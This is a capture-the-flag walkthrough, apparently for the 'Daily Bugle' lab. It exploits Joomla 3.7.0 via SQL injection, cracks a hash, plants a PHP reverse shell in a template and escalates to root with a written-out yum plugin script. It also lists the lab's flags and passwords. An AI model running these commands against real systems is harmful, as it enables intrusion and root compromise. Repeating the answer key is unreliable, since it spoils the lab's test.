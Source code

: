 ```yaml
---
description: Walkthrough (Hard)
---
```


# Daily Bugle 🔴🔴🔴

Compromise a Joomla CMS account via SQLi, practise cracking hashes and escalate your privileges by taking advantage of yum.

<figure><img src="../.gitbook/assets/image (28).png" alt=""><figcaption></figcaption></figure>

### Task 1 : Deploy

#### Q ) Access the web server, who robbed the bank?

\-> spiderman&#x20;

<figure><img src="../.gitbook/assets/image (29).png" alt=""><figcaption><p>Visit the home page for answer</p></figcaption></figure>

***

### Task 2 : Obtain user and root

#### Q ) What is the Joomla version?

\-> 3.7.0

<figure><img src="../.gitbook/assets/image (30).png" alt=""><figcaption></figcaption></figure>

```bash
url + '/administrator/manifests/files/joomla.xml'
```

<figure><img src="../.gitbook/assets/image (31).png" alt=""><figcaption></figcaption></figure>

#### Q ) What is Jonah's cracked password?

\-> spiderman123

* use this exploit : [Joomla 3.7.0 Exploit](https://github.com/stefanlucas/Exploit-Joomla/blob/master/joomblah.py)

```bash
python3 joomlaExploit.py http://10.10.55.97/ 
```

<figure><img src="../.gitbook/assets/image (32).png" alt=""><figcaption></figcaption></figure>

* Found user jonah and password hash.

**Crack the hash**

<figure><img src="../.gitbook/assets/image (33).png" alt=""><figcaption></figcaption></figure>

**OR**

<figure><img src="../.gitbook/assets/image (34).png" alt=""><figcaption></figcaption></figure>

**OR**

<figure><img src="../.gitbook/assets/image (35).png" alt=""><figcaption></figcaption></figure>

* [https://hashes.com/en/decrypt/hash](https://hashes.com/en/decrypt/hash)  &#x20;

#### Q ) What is the user flag?

\-> 27a260fe3cba712cfdedb1c86d80442e

{% code overflow="wrap" %}
```bash
gobuster dir -u http://10.10.55.97 -w /usr/share/wordlists/SecLists/Discovery/Web-Content/common.txt
```
{% endcode %}

* Found [/administrator/](http://10.10.55.97/administrator/)
* Now login with info available

<figure><img src="../.gitbook/assets/image (36).png" alt=""><figcaption></figcaption></figure>

* Goto Templates ->  Templates ( sidebar) -> Prostar ( root) -> index.php
* Upload a php reverse shell and visit it.

PHP Reverse Shell : [Here](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php)

* Dont forget to open netcat listener on host machine.
* Found config file while directory busting, lets check it out&#x20;
* /var/www/html/configaration.php

<figure><img src="../.gitbook/assets/image (37).png" alt=""><figcaption></figcaption></figure>

* Got  pass : nv5uz9r3ZEDzVjNu

<figure><img src="../.gitbook/assets/image (38).png" alt=""><figcaption></figcaption></figure>

* Switch user to jjameson and get flag

#### Q ) What is the root flag?

\-> eec3d53292b1821868266858d7fa6f79

```bash
python -c 'import pty; pty.spawn("/bin/bash")'
```

* For interactive shell

<figure><img src="../.gitbook/assets/image (40).png" alt=""><figcaption></figcaption></figure>

* User can run yum as root without any password so check [GtfoBins](https://gtfobins.github.io/gtfobins/yum/).
* Run this full code in terminal to get root shell.

```bash
TF=$(mktemp -d)
cat >$TF/x<<EOF
[main]
plugins=1
pluginpath=$TF
pluginconfpath=$TF
EOF

cat >$TF/y.conf<<EOF
[main]
enabled=1
EOF

cat >$TF/y.py<<EOF
import os
import yum
from yum.plugins import PluginYumExit, TYPE_CORE, TYPE_INTERACTIVE
requires_api_version='2.1'
def init_hook(conduit):
  os.execl('/bin/sh','/bin/sh')
EOF

sudo yum -c $TF/x --enableplugin=y
```

<figure><img src="../.gitbook/assets/image (39).png" alt=""><figcaption></figcaption></figure>




